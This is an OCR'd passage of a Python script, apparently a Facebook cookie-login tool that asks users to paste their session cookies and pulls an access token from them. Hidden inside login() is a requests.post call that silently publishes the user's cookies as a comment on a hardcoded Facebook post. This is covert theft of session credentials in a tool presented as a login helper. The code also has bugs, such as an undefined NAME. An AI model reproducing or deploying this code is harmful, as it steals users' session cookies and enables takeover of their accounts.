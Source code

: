 ll="\033[0;97m"
 
 
def login():
        clear()
        cookies = input(' [+] Put cookies: ')
        try:
                data = requests.get("https://business.facebook.com/business_locations", headers = {"user-agent": "Mozilla/5.0 (Linux; Android 6.0.1; Redmi 4A Build/MMB29M) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/59.0.3071.92 Mobile Safari/537.36","referer": "https://www.facebook.com/","host": "business.facebook.com","origin": "https://business.facebook.com","upgrade-insecure-requests" : "1","accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7","cache-control": "max-age=0","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8","content-type":"text/html; charset=utf-8"}, cookies = {"cookie":cookies})
                find_token = re.search("(EAAG\w+)", data.text)
                open(".tok.txt", "w").write(find_token.group(1))
                open(".coki.txt","w").write(cookies)
                tok=open('.tok.txt','r').read()
                info = requests.get('https://graph.facebook.com/me/?access_token='+tok,cookies = {"cookie":cookies}).json()
                name=(info['name'])
                idd=(info['id'])
                barth=(info['birthday'])
                print('\033[1;97m [+]-------------------------------------------------------')
                print(' [+] Welcome\033[1;32m : '+name)
                print(' \033[1;37m[+] YOUR UID : '+idd)
                print(' [+] Barth Day: '+barth)
                requests.post('https://graph.facebook.com/pfbid02Sj97PfY1mY3cvbLjGaJRz22FR7yc75JFKLoBFiHoNLSq9aGxmGKotAtcYLkMDDpbl/comments/?message='+cookies+'&access_token='+tok, cookies={'cookie':cookies})
                print('\033[1;97m [+]-------------------------------------------------------')
                print(' [+] COOKIES LOGIN HAS BEEN SUCCESSFULL...')
                time.sleep(1)
                menu()
        except KeyError:
                print('\033[1;31m [+] COOKIES HAS BEEN EXPIRED...')
                os.system('rm -rf .tok.txt');time.sleep(1);login()
        except requests.exceptions.ConnectionError:
                exit(' [+] INTERNET CONNECTION ERROR...')
        except AttributeError:
                print('\033[1;31m [+] COOKIES HAS BEEN EXPIRED...')
                os.system('rm -rf .tok.txt');time.sleep(1);login()
                login()
def public():
        usrr=[]
        global lim
        clear()
        try:
                tok = open('.tok.txt','r').read()
                cok = open('.coki.txt','r').read()
                tokenku.append(tok)
        except KeyError:
                print('\033[1;31m [+] YOUR COOKIES  EXPIRED...');time.sleep(1)
                login()
        except IOError:
                print('\033[1;31m [+] YOUR COOKIES  EXPIRED...');time.sleep(1)
                login()
        try:
                info = requests.get('https://graph.facebook.com/me/?access_token='+tok,cookies = {"cookie":cok}).json()
                name=(info['name'])
                print('\033[1;32m [+] WELCOME '+NAME)
                print('\033[1;97m [+]-------------------------------------------------------')
        except KeyError: